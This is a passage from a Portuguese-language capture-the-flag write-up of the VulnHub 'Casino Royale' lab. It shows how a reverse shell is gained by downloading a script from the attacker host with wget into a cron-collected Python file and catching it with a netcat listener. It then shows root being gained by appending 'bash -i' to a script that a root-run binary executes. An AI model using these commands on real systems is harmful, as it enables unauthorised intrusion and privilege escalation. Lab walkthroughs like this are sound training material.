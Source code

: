 depois eu fiz o download desse arquivo no server e substitui o conteúdo dele para casino-data-collection.py
```bash
$ wget http://192.168.97.1/test.py
$cat test.py > /opt/casino-royale/casino-data-collection.py
```

Depois disso era só colocar a porta 4444 em modo de escuta e acessar http://casino-royale.local:8081/collect.php

```
nc -vvnlp 4444
Listening on any address 4444 (krb524)
Connection from 192.168.97.128:34136
le@casino:/opt/casino-royale$
```

Estamos como Le

### Para root
Como estamos como Le, temos acesso aos outros arquivos. O arquivo mi6_detect_test é um ELF que quando exeutado nos mostra uma saída semelhante ao comando ps, se olharmos as strings do arquivo, vemos o seguinte:
```
$ strings mi6_detect_test
(...)
GLIBC_2.2.5
=W	 
AWAVA
AUATL
[]A\A]A^A_
/bin/bash run.sh
;*3$"
GCC: (Debian 6.3.0-18+deb9u1) 6.3.0 20170516
crtstuff.c
(...)
``` 
Ele executa o arquivo run.sh, se olharmos o que o run.sh, veremos que ele executa o netstat e o ps. Mas além disso o mi6_detect_test é executado como root, então se adicionarmos algo no arquivo, podemos ter acesso como root:
```
$ echo "bash -i" >> run.sh
$ ./mi6_detect_test
```
E pronto, estamos como root, agora basta procurar a flag que pela descrição no vulnhub está em /root/flag/flag.sh, executando esse arquivo temos:
```
$ /root/flag/flag.sh
--------------------------------------------
--------------------------------------------
Go here:   http://casino-royale.local:8082
--------------------------------------------
--------------------------------------------
PHP 5.6.38-2+0~20181015120829.6+stretch~1.gbp567807 Development Server started at Thu Mar  7 16:27:52 2019
Listening on http://0.0.0.0:8082
Document root is /root/flag
Press Ctrl-C to quit.
```
Outro serviço rodando, se acessarmos veremos a flag